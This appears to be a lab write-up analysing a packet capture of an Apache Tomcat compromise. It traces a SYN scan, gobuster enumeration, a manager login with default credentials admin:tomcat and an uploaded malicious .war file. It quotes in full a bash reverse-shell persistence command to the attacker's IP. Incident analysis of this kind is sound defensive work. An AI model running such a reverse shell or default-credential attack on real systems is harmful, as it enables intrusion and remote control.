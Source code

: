 # Apache Tomcat Web Server Compromise - Incident Analysis

## Scenario

Our SOC team detected suspicious activity originating from an external IP address targeting an Apache Tomcat web server within the company's intranet. This investigation leverages the analysis of the captured pcap file, uncovering a series of malicious activities that indicate a successful compromise of the web server. Below is the detailed breakdown of the incident, including IP addresses, ports involved, and attacker methodologies.

## IP Address Analysis

| IP Address     | Description                                       |
| -------------- | ------------------------------------------------- |
| 14.0.0.120     | External IP; Threat Actor                         |
| 10.0.0.112     | SSH Server & Apache Tomcat/7.0.88                |
| 10.0.0.115     | CyberDefenders - Virtual Machine (Ubuntu - root) |
| 10.0.0.105     | SMB/File Share Server                             |

## Port Activity

The following ports were actively used during the attack:
- **8080** - Apache Tomcat Web Server
- **22** - SSH
- **445** - SMB File Sharing
- **80** - HTTP
- **443** - HTTPS

### Attack Timeline

1. **SYN Scan Detection**:
   - The attacker (14.0.0.120) was observed sending a large volume of SYN requests, indicating an active SYN scan against the network. The attacker successfully identified open ports: **8080**, **22**, and **8009** on the SSH server (10.0.0.112).

2. **Suspicious POST Request**:
   - At **18:22:14**, the attacker uploaded a file via a POST request to the Tomcat server (10.0.0.112). The file appears to be a **PK file**, likely compressed as a **ZIP** archive.

3. **Default Credentials Exploited**:
   - In **packet 20553**, a successful login attempt was captured using the credentials **admin:tomcat**, which were likely unchanged from the default setup.

## Attack Summary and Analysis

### 1. Identifying the Attacker
- **Source IP**: 14.0.0.120
- **Origin**: Guangzhou

### 2. Open Port Vulnerability
- **Port Access**: The attacker's scan revealed that **8080** is used for the Apache Tomcat web server's admin panel.

### 3. Enumeration Tool Identified
- **Tool Used**: `gobuster`
  - The attacker utilized this tool to enumerate directories and files on the web server.

### 4. Directory Uncovered
- **Discovered Path**: `/manager`
  - The attacker discovered the `/manager` directory, which led to access to the admin panel.

### 5. Brute-Force Attack
- **Credentials Used**: `admin:tomcat`
  - The attacker successfully brute-forced the login credentials, exploiting the default settings.

### 6. Malicious File Upload
- **File Name**: `JXQOZY.war`
  - The attacker uploaded a malicious `.war` file intending to establish a reverse shell on the compromised server.

### 7. Persistence Command
- **Scheduled Command**: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
  - This command was used to establish a reverse shell and maintain persistence on the compromised system.
